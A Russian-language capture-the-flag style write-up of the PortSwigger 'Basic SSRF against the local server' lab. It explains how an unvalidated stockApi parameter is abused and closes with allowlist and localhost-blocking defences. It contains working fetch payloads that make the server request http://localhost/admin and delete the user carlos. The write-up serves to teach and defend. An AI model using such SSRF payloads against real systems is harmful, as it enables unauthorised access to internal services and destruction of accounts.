




# PortSwigger Lab: Basic SSRF against the local server

## Описание лаборатории
- **Платформа:** PortSwigger Web Security Academy
- **Сложность:** Apprentice
- **Цель:** Изменить URL проверки наличия товара, чтобы получить доступ к интерфейсу администратора по адресу `http://localhost/admin` и удалить пользователя `carlos`.

## Анализ уязвимости
Функционал проверки наличия товара (`/product/stock`) принимает URL через параметр `stockApi` и загружает с него данные. Сервер обрабатывает этот запрос без проверки пункта назначения.

Поскольку сервер имеет доступ к своему собственному интерфейсу обратной связи (`localhost`), злоумышленник может изменить параметр `stockApi`, чтобы указать на внутренние сервисы, такие как панель администратора, которые недоступны из публичного интернета.

## Шаги эксплуатации
1. Определен уязвимый эндпоинт и параметр путем изучения формы проверки наличия товара (параметр `stockApi`).
2. Открыта консоль разработчика в браузере, и с помощью API `fetch` отправлен POST-запрос на `/product/stock` с внедрением локального URL администратора:
   ```javascript
   fetch('/product/stock', {
     method: 'POST',
     headers: {'Content-Type': 'application/x-www-form-urlencoded'},
     body: 'stockApi=http://localhost/admin'
   })
   .then(r => r.text())
   .then(t => console.log(t));
   ```
3. Сервер запросил панель администратора и вернул её HTML-код в консоль. Это подтвердило наличие уязвимости SSRF и выявило целевую ссылку для удаления пользователя `carlos`.
4. Пейлоад был изменен для выполнения запроса на удаление через локальный интерфейс администратора:
   ```javascript
   fetch('/product/stock', {
     method: 'POST',
     headers: {'Content-Type': 'application/x-www-form-urlencoded'},
     body: 'stockApi=http://localhost/admin/delete?username=carlos'
   })
   .then(r => r.text())
   .then(t => console.log(t));
   ```
5. Сервер выполнил запрос. Хотя внутренняя панель администратора ответила `401 Unauthorized` (так как сессия администратора была завершена после действия), пользователь `carlos` был успешно удален, и лаборатория была решена.

## Доказательства

### Доступ к панели администратора (Вывод в консоль)


### Поиск целевой ссылки


### Выполнение запроса на удаление


### Лаборатория решена


## Меры защиты (Mitigation)
Для предотвращения SSRF приложение должно проверять предоставленный пользователем URL.
1. **Белый список (Allowlist):** Разрешать запросы только к конкретному доверенному домену API проверки наличия товара.
2. **Блокировка локальных IP:** Убедиться, что сервер не может делать запросы к `localhost`, `127.0.0.1` или внутренним диапазонам IP.